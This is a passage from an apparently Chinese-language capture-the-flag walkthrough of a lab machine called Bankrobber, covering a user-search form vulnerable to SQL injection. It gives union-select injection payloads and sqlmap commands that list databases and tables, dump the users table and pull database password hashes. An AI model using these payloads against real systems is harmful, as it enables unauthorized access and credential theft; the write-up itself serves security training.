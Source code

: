 其中包含交易人、交易金额、评价信息以及管理员审核操作，普通用户发送交易信息给管理员进行审核，点击接收或拒绝可直接处理交易信息

#### 后门识别

在后门识别处存在提示信息：可以快速识别位于服务器上的后门，但出于安全只能运行`dir`命令![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)输入 dir 后显示它只能在 localhost 下运行![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

#### 用户搜索

直接搜索用户ID为1的用户会返回对应的用户信息![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)搜索用户ID为`1'`则报错，说明可能存在SQL注入漏洞![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)使用 order by 判断字段为3

```
1' order by 3-- -  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)截屏2022-02-09 下午3.34.39

可通过联合注入获取信息，如数据库版本、当前用户等

```
-1' union select 1,2,3-- -  
-1' union select version(),user(),3-- -  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)使用 BurpSuite 抓取对应请求数据包并将其保存为`search_sqli.txt`![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)使用 sqlmap 进行检测，首先列出数据库

```
sqlmap -r search_sqli.txt --dbs  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)列出当前数据库所有表

```
sqlmap -r search_sqli.txt -D bankrobber --tables 
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)列出当前数据库 users 表中所有数据

```
sqlmap -r search_sqli.txt -D bankrobber -T users --dump  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)查询数据库用户密码

```
sqlmap -r search_sqli.txt --passwords  

```
